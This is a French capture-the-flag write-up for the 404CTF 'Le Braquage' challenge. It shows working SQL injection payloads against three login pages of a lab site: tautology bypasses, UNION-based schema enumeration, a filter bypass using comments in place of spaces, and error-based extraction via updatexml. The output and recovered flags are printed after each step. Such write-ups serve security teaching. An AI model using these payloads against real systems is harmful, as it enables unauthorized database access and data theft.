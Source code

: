 # Le Braquage

On se connecte au [site](https://le-braquage.404ctf.fr) et on y découvre trois portail d'accès qui semblent nous indiquer d'exploiter des **injections SQL**

## Première page : 
En execuatnt l'injection SQL : 
```sql
' OR '1'='1 
```

Dans le champ identifiant, on découvre le tableau : 

| Id | Pseudonyme | Téléphone | Adresse | Code |
| :-------------: | :-------------: | :-------------: | :-------------: | :-------------: |
| 1 | RIRI | 0145489625 | 5 avenue des groseilles | OpérationEpervier |
| 2 | FIFI | 0145889625 | 1 rue des myrtilles | OpérationFaucon |
| 3 | LOULOU | 0115789625 | 1 rue des pommes | OpérationFaucon |
| 456 | JAJA | 0145769625 | 1 rue des pommes | OpérationGorfou |
| 472 | RORO | 0189999625 | 5 boulevard des poires | OpérationFaucon |
| 7456 | TITI | 404CTF{0145769456} | 404CTF{21 rue des kiwis} | OpérationGorfou |
| 7865 | DEDE | 0145781225 | 3 avenue des oranges | OpérationMouette |
| 16579 | DIDI | 0145789625 | 1 rue des pommes | OpérationEpervier |

D'où les deux premiers Flags :
>404CTF{0145769456}

>404CTF{21 rue des kiwis}

---

## Deuxième page :

En executant l'injection :

```sql
 cn ' UNION select 1, schema_name from INFORMATION_SCHEMA.SCHEMATA -- -
```
On obtient le nom de la Database :

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | UnionVendeurs |

On peut donc explorer les tables de cette Database :

```sql
cn' union select 1, table_name from information_schema.tables where table_schema='UnionVendeurs'-- -
```

On obtient le nom des la tables:

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | Users |
| 1 | cooperatives |

Et en explorant la table Users :

```sql
cn' union select 1, column_name from information_schema.columns where table_name='Users'-- -
```
on obtient le nom des colonnes :

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | id |
| 1 | nom |
| 1 | prenom |


Et finalment, en executant l'injection : 
```sql
cn' Union select nom, prenom from Users-- -
```
| Pseudo | Coopératives |
| :-------------: | :-------------: |
| Assin | Marc |
| Outan | Laurent |
| Gator | Ali |
| Reptile | Eric |
| Culé | Roland |
| 404CTF{Vereux} | 404CTF{UnGorfou} |
| Abbé | Oscar |
| Conda | Anna |

>À noter qu'il n'y a rien à exploiter dans la colonne id

On trouve deux nouveaux flags :

>404CTF{Vereux}

>404CTF{UnGorfou}
---
## Troisième page :
une simple injection sql avec des commentaires à la place des espaces pour eviter les filtres : 
```sql
'/**/OR/**/'1'='1 
```

| Code | Date | Heure |
| :-------------: | :-------------: | :-------------: |
| OpérationEpervier | 2021-11-02 | 19h |
| OpérationMouette | 2021-09-14 | 19h |
| OpérationFaucon | 2022-01-01 | 20h |
| OpérationGorfou | 404CTF{2022-07-14} | 404CTF{01hDuMatin} |

On récupère à nouveaux deux flags : 

>404CTF{2022-07-14}

>404CTF{01hDuMatin}


Il manque donc qu'une seule chose : **le mot de passe**...

après beaucoup de recherches on touve que sur la troisiemme page, les **erreurs passent avant le filtre** et donc en utilisant le bon payload, (merci [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) encore une fois ...)

on trouve finalement après énumération de la db: 
```sql
' and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() LIMIT 1,1)),null)-- -
```

```text
Array(    [0] => HY000    [1] => 1105    [2] => XPATH syntax error: 'mdp')RequĂȘte invalide : ne pas mettre d'espace
```

la fameuse colonne ‘mdp’ est découverte et on obtient le mot de passe :

```sql
' and updatexml(null,concat(0x0a,(select mdp from Password LIMIT 5,1)),null)-- -
```

```text
Array(    [0] => HY000    [1] => 1105    [2] => XPATH syntax error: '404CTF{GorfousAuPouvoir}')RequĂȘte invalide : ne pas mettre d'espace
```


donc on a le flag final : 
>404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}
